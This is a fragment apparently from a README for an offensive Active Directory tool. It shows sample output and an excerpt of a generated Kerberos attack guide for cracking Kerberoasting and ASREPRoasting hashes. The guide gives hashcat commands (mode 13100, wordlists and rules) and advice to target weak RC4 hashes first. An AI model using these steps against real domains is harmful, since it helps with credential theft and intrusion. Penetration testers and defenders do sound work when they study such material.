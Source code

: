 **After**:
```
[+] Kerberos attack guide saved to: KERBEROS_ATTACK_GUIDE.txt
[!] 3 RC4 hashes detected - these crack FAST!

[*] Next steps:
  hashcat -m 13100 tgs_hashes.txt rockyou.txt -r /path/to/best64.rule
  Review KERBEROS_ATTACK_GUIDE.txt for comprehensive cracking strategies
```

---

## 📊 Output Examples

### KERBEROS_ATTACK_GUIDE.txt (Excerpt)

```
================================================================================
KERBEROS ATTACK GUIDE
================================================================================

Kerberoasting Hashes: 5
ASREPRoasting Hashes: 2

================================================================================
KERBEROASTING HASH CRACKING
================================================================================

📊 Encryption Analysis:
--------------------------------------------------------------------------------
RC4-HMAC (weak): 3 hashes
AES (strong): 2 hashes

✓ RC4 hashes are MUCH faster to crack (prioritize these)
✓ Expected speed: ~1-10 GH/s on modern GPU

⚠ AES hashes are slower to crack
⚠ Expected speed: ~100-500 MH/s on modern GPU

================================================================================
METHOD 1: Hashcat (Recommended)
================================================================================

Basic cracking:
hashcat -m 13100 tgs_hashes.txt /path/to/wordlist.txt

With rules (MUCH more effective):
hashcat -m 13100 tgs_hashes.txt /path/to/wordlist.txt -r /path/to/best64.rule

[... 300+ more lines ...]
```

---